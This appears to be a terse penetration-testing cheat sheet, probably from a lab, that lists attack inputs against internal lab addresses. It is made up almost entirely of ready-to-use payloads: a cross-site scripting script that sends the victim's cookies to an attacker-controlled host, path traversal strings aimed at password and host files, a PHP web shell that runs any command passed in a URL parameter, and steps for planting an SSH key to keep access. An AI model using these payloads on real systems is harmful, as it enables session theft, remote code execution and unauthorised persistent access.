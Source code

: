     10.50.29.184/path/pathdemo.php
    10.50.29.184/cmdinjectdemo.php
________________________________________________________________________________________________________________
    <script>document.location="http://10.50.21.223:8000"+document.cookie;</script>
________________________________________________________________________________________________________________
## post method
    ../../../../../../ect/hosts
    ../../../../../../ect/passwd
________________________________________________________________________________________________________________
## Malicious File Upload:
    <HTML><BODY>
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <?php
    if($_GET['cmd']) {
      system($_GET['cmd']);
      }
    ?>
    </pre>
    </BODY></HTML>
________________________________________________________________________________________________________________
## Uploading SSH Key: 
    ls -la /users/home/directory       #check if .ssh exists
    mkdir /users/home/directory/.ssh   #make .ssh in users home folder if it does not exist
    echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys
    cat /users/home/directory/.ssh/authorized_keys
________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________
